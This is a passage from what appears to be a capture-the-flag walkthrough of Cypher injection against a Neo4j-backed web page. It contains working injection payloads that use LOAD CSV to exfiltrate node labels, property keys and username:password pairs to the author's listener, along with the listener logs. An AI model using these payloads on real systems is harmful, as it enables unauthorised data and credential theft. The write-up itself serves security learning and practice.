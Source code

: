 

I'll update the query on the page to get the labels:



    ' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.6/?l='+label as l RETURN 0 as _0//



There are two hits at the server, `user` and `employee`:



    10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=user HTTP/1.1" 200 -
    10.10.11.210 - - [24/Apr/2023 15:35:19] "GET /?l=employee HTTP/1.1" 200 -



One neat thing about Cypher is that I can chain queries together, like
in [this
example](https://pentester.land/blog/cypher-injection-cheatsheet/#clause-composition):



    MATCH (john:Person {name: 'John'})
    MATCH (john)-[:FRIEND]->(friend)
    RETURN friend.name AS friendName



That is how [this
example](https://pentester.land/blog/cypher-injection-cheatsheet/#out-of-band--blind-using-load-csv)
works to extract the keys for `user`:



    ' match (u:user) with distinct keys(u) as k LOAD CSV FROM 'http://10.10.14.6/?'+k[0] as b return b//



It's getting the user object, and then the keys for it (saved in `k`),
and then sending a query to me with `k[0]`:



    10.10.11.210 - - [24/Apr/2023 16:06:50] "GET /?password HTTP/1.1" 200 -



I am not able to find a way to get all the keys in one query, but I'll
up `k[0]` to `k[1]` and get:



    10.10.11.210 - - [24/Apr/2023 16:07:34] "GET /?username HTTP/1.1" 200 -



`k[2]` doesn't returns anything.

To read data, I'll use the same pattern but this time generate a string
for each node:



    ' match (u:user) with distinct u.username + ":" + u.password  as d LOAD CSV FROM 'http://10.10.14.6/?'+d as a return a //
